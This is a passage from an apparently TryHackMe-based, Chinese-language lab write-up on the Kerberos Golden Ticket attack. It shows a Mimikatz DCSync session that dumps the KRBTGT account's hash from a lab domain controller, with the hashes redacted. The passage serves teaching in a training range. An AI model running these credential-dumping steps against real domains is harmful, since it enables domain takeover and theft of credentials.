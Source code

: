 然而，如果我们想要生成自己的 TGT 来授予我们对一切的访问权限怎么办？这就是所谓的 Golden Ticket 攻击。在 Golden Ticket 攻击中，我们完全绕过了 KDC，创建自己的 TGT，本质上成为了一个 Ticket Granting Server（TGS）。为了伪造 TGT，我们需要以下信息：

- 域的 FQDN（完全限定域名）
- 域的安全标识符（SID）
- 我们想要冒充的账户用户名
- KRBTGT 密码哈希

前三个通常很容易恢复。最后一个需要域被威胁，因为 KRBTGT 密码哈希只存储在域控制器上。幸运的是，我们刚刚通过伪造证书攻击了 Tier 0 管理员组，所以我们有能力恢复 THMSERVER2 上的 KRBTGT 密码哈希。

我们将再次使用 Mimikatz 和 DC Sync 来恢复 THMSERVER2 上的 KRBTGT 密码哈希：

```shell title="Command Prompt"
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 (USER_OBJECT)
User Account Control : 00000202 (ACCOUNTDISABLE NORMAL_ACCOUNT)
Account expiration   :
Password last change : 4/25/2022 7:18:22 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: removed
    ntlm- 0: removed
    lm  - 0: removed
[....]
```

### Inter-Realm TGTs - 跨域 TGT


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami